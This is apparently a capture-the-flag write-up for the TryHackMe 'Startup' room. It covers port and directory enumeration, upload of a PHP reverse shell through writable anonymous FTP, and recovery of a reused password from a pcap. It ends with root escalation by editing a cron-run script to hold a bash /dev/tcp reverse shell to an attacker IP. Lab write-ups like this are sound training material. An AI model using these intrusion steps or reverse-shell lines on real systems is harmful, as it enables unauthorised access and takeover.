

# [Startup - Abuse traditional vulnerabilities via untraditional means.](https://tryhackme.com/r/room/startup)

## Enumeration

### Nmap
`nmap` is a network exploration tool, which allows us to scan for (open) ports.
```
user@parrot ~/CTF/startup $ nmap -sC -sV -Pn <TARGET-IP>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 13:01 CEST
Nmap scan report for <TARGET-IP>
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to <TARGET-IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
The output shows:
- http on port 80
- ssh on port 22 
- ftp on port 21, anonymous login is enabled and the ftp directory is writeable (most likely our entrypoint)

### Inspecting the website
The index page of *TARGET-IP* tells us the website is still in development. It does not offer any functionality except for a "mailto"-link into the void (`html <a href="mailto:#">contact us.</a>`).

### Gobuster scans
By running `gobuster`, we can brute-force website URIs (directories and files), DNS subdomains and more.

1. directory enumeration scan
```
user@parrot ~/CTF/startup $ gobuster dir -u <TARGET-IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 312] [--> http://<TARGET-IP>/files/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
user@parrot ~/CTF/startup $
```
2. DNS subdomain scan
```
user@parrot ~/CTF/startup $ gobuster dns -d <TARGET-IP> -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     <TARGET-IP>
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
user@parrot ~/CTF/startup $
```

### Inspecting /files


The accessable files are not really helpful. They might have embedded files or data, but before checking this, we should try if the ftp-folder is really writeable as anonymous. In case we can upload files over ftp and access them here, it is an ease to create a reverse-shell.

## Uploading the PHP reverse-shell

To log in, we just have to `ftp <TARGET-IP>` and provide **anonymous** as username and a blank password.
Next, prepare the reverse-shell. There are a lot of scripts out there, I recommend [this](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads). The only thing we have to do is changing a couple of parameters inside of it.


To get the file on the server, we could directly use the `ftp` cli utility, or a GUI-Client like <u>Filezilla</u>.


Afterwards, we just have to set up a listener on our attacking-machine and execute the file.

```
user@parrot ~ $ nc -lvnp 9001
listening on [any] 9001 ...
connect to [<TARGET-IP>] from (UNKNOWN) 45424
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:12:45 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ whoami
whoami
www-data
www-data@startup:/$ 
```

## First flag
The first flag can be obtained directly from the root-directory.
```
www-data@startup:/$ ls
ls
bin   home	      lib	  mnt	      root  srv  vagrant
boot  incidents       lib64	  opt	      run   sys  var
dev   initrd.img      lost+found  proc	      sbin  tmp  vmlinuz
etc   initrd.img.old  media	  recipe.txt  snap  usr  vmlinuz.old
www-data@startup:/$ cat recipe.txt
```
Output: XXXX

## Second flag (user-flag)
*/home* has one sub-directory for a user named lennie. Right now, we are logged in as **www-data** and cannot access it.
After some exploration, there is a strange directory called */incidents*, including a <u>wireshark</u> capture, **incidents.pcapng**.
'*.pcapng' files contain a dump of network traffic data. Analyzing this might leak some information that helps us to proceed.



The corresponding TCP-Stream gives us this:

```
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
```

It seems like c4ntg3t3n0ughsp1c3 is the password for lennie.

```
www-data@startup:/$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/$ 
```
```
lennie@startup:~$ ls ~
ls ~
Documents  scripts  user.txt
lennie@startup:~$ cat ~/user.txt
cat ~/user.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
lennie@startup:~$ 
```

## Third flag (root-flag)
Before going for the root-flag, we can transfer from our reverse-shell (tty) to an SSH connection. We know what lennie's credentials are and SSH is generally more stable.
```
user@parrot ~ $ ssh lennie@<TARGET-IP>
lennie@<TARGET-IP>'s password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


Last login: Wed Apr 24 13:14:31 2024 from XX.X.XXX.XX
$ 
```

Next up I tried `sudo -l`, but unfortunately, lennie is not allowed to use `sudo`, so there has to be something else. */home/lennie/scripts/* looks promising. It contains the file "planner.sh".
```
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
$ 
```
Sadly, we cannot modify its content because the file belongs to root and lennie has not enough permission to write to it. It does execute another script though.
```
$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
$ 
```
```
$ ls -lisa /etc | grep "print.sh"
 57937  4 -rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
$ 
```
The */etc/print.sh* script belongs to lennie, so we can freely modify its content. Time to create another reverse-shell.
```
$ cat /etc/print.sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/<ATTACKER-IP>/4444 0>&1
$ 
```
The problem: print.sh or planner.sh need to be executed as root if we want to receive a root-shell.

The key: The startup_list.txt seems to get modified every minute or so. Assuming there is a service, running as root, executing the planner.sh script, which modifies the .txt file and would also execute print.sh, we would just need to wait for the next cycle. If print.sh gets executed as root, we will retrieve a root-shell.
`user@parrot ~ $ nc -lvnp 4444`

It worked. We are root.
```
root@startup:~# cat /root/root.txt
cat /root/root.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
root@startup:~# 
```